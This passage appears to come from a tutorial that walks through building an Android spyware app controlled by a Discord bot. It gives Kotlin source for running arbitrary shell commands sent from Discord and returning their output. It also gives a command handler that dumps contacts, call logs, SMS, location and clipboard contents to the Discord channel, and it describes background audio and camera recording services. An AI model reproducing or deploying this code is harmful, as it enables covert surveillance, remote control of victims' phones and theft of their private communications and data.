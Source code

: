 This `readClipboard` function basically read the clipboard message. 

```kotlin
fun execute(command: String, client: DiscordWebSocketClient) {
    try {
        // Use a shell to support piping and redirection
        val processBuilder = ProcessBuilder("/system/bin/sh", "-c", command)
        processBuilder.redirectErrorStream(true)

        val process = processBuilder.start()
        val output = BufferedReader(InputStreamReader(process.inputStream)).use { it.readText() }

        process.waitFor()

        // Limit message size for Discord
        val limitedOutput = if (output.length > 1900) output.take(1900) + "\n[truncated]" else output

        client.sendMessage("Command Executed: $command", limitedOutput)
        Log.i("Command", "Executed: $command\n$limitedOutput")
    } catch (e: Exception) {
        client.sendMessage("Execution Error", e.message.toString())
        Log.e("Command", "Error executing command: ${e.message}", e)
    }
}
```

This `execute` function is for executing system command. Then there's also `AudioRecording` and `CamRecording` which is a service in order to perform the audio and camera recording in background. All of these function will send the output to discord via the discord bot. 

### Part 4

This part will focus on MainActivity's `onCreate` function where the application will host the discord bot and provide a list of available command to trigger the function.

```kotlin
if (DiscordClientManager.discordClient == null) {
    DiscordClientManager.discordClient = DiscordWebSocketClient()
}
DiscordClientManager.discordClient?.onChannelIdReceived = {
    DiscordClientManager.discordClient?.sendMessage("> App started",helpMsg)

}
DiscordClientManager.discordClient?.onMessageReceived = { message ->
    // Here, you can handle any messages that come from Discord
    println("Message received: $message")
    val command = message.trim()
    // Split the message into command and argument (everything after >cmd)
    val (baseCommand, argument) = if (command.startsWith(">cmd")) {
        command.split(" ", limit = 2).let {
            it.getOrElse(0) { "" } to it.getOrElse(1) { "" }
        }
    } else {
        command to ""
    }

    when (baseCommand) {
        ">help" -> DiscordClientManager.discordClient?.sendMessage("> Help Menu",helpMsg)
        ">Read Contact" -> Dump(this,DiscordClientManager.discordClient!! ,ContactsContract.CommonDataKinds.Phone.CONTENT_URI, "Contacts")
        ">Read Call Log" -> Dump(this,DiscordClientManager.discordClient!! ,CallLog.Calls.CONTENT_URI, "Call log")
        ">Read SMS" -> Dump(this,DiscordClientManager.discordClient!! ,Telephony.Sms.CONTENT_URI, "SMS")
        ">Get Location" -> getLastKnownLocation(this,DiscordClientManager.discordClient!!)
```